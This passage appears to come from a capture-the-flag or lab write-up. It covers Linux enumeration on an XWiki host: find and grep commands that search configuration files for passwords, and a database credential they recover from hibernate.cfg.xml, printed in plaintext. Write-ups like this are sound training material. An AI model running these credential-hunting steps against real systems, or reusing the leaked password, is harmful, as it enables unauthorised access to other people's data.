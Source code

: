 ```shell
drwxr-x---  6 oliver oliver 4.0K Sep  5 14:44 oliver
```



- Identified user: `oliver`.



---

### Linux Enumeration / Credential Hunting

- `/etc/xwiki` is the **system-wide configuration directory**, readable by `xwiki`.
    
- Search for potential credentials:



```bash
find / -type f -name "*xwiki*" 2>/dev/null | grep -Ei '\.xml$|\.config$|\.cfg$|xml'
```

```bash
<SNIP>
`/etc/xwiki/xwiki.cfg /var/lib/ucf/cache/:etc:xwiki:xwiki.cfg /var/lib/ucf/cache/:etc:xwiki:hibernate.cfg.xml /var/lib/dpkg/info/xwiki-mysql-common.config /usr/share/xwiki/default/xwiki.cfg`
<SNIP>
```



**Significance:**

- `hibernate.cfg.xml` → database connection info.
    
- `xwiki.cfg` → system configuration, may include admin credentials, DB URLs, or LDAP credentials.
    
- `xwiki-mysql-common.config` → stored package configuration, may include DB password.



#### Extract credentials:


```shell
grep -iE 'password|user|username|secret|key|jdbc|db' /etc/xwiki/xwiki.cfg.xml
```



no relevant data.



```bash
grep -iE 'password|user|username|secret|key|jdbc|db' /etc/xwiki/hibernate.cfg.xml
```

```
<property name="hibernate.connection.username">xwiki</property>
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```


Found credentials:  **xwiki:theEd1t0rTeam99**

---